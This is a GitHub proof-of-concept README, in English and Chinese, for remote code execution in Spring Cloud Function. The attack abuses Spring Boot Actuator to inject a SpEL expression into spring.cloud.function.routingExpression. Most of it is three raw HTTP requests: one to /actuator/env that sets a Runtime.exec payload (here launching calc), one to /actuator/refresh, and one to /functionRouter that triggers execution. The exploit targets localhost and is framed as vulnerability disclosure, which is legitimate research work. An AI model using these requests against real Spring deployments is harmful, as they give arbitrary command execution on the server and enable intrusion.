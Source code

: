 # springboot-actuator-routingExpression-rce

Spring Cloud Function SPEL injection with the help of actuator.

It is clearly like as the Spring Cloud Gateway rce(CVE-2022-22947).As we can request env endpoint of Spring boot actuator just like this below:

The first step is to revalue the spring.cloud.function.routingExpression  so that it produces an evil SPEL.

```

POST /actuator/env HTTP/1.1
Host: 127.0.0.1:9000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0
Content-Type: application/json
Content-Length: 109

{"name":"spring.cloud.function.routingExpression","value":"T(java.lang.Runtime).getRuntime().exec('calc')"}

```
The next step is to refresh the environment variables.

```
POST /actuator/refresh HTTP/1.1
Host: 127.0.0.1:9000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0
```

```
POST /functionRouter/qqq HTTP/1.1
Host: 127.0.0.1:9000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0

aaa
```
![](.README_images/cfa3c05a.png)

# 基于Spring boot actuator的Spring-Cloud-Function SPEL注入
- Spring Coud Function 官方在最新版本3.2.3 已经修复了之前的commit为dc5128b 的SPEL注入漏洞。但笔者发现配置文件中的spring.cloud.function.routingExpression参数也存在SPEL注入点，因此理论上只要能够控制functionProperties.getRoutingExpression() 的值就能够触发这个漏洞。
- 当项目中引入了actuator 并且开启了env 端点，那么就可以实现RCE。

请求/env端点，写入配置：
![image](https://user-images.githubusercontent.com/79240946/165094266-0a008c95-9592-488f-9c79-85fcf568e676.png)


请求/refresh端点，刷新配置生效：
![image](https://user-images.githubusercontent.com/79240946/165094196-7a6cb6db-851b-46bf-941c-6fedf716721b.png)

最后通过请求/functionRouter 执行routingExpression 

![image](https://user-images.githubusercontent.com/79240946/165094327-40ca83a3-193a-460b-9836-636f229f5b4c.png)

# 更多
[公众号文章](https://mp.weixin.qq.com/s?__biz=MzIzMjYzNTQwMA==&mid=2247484304&idx=1&sn=ed5c807aaf0abdf07f27a26b23663238&chksm=e890aef7dfe727e16c28d1119a522b03c6e20e599ccd07cb4b36469aef4058f3d0a11cc7fb25#rd)
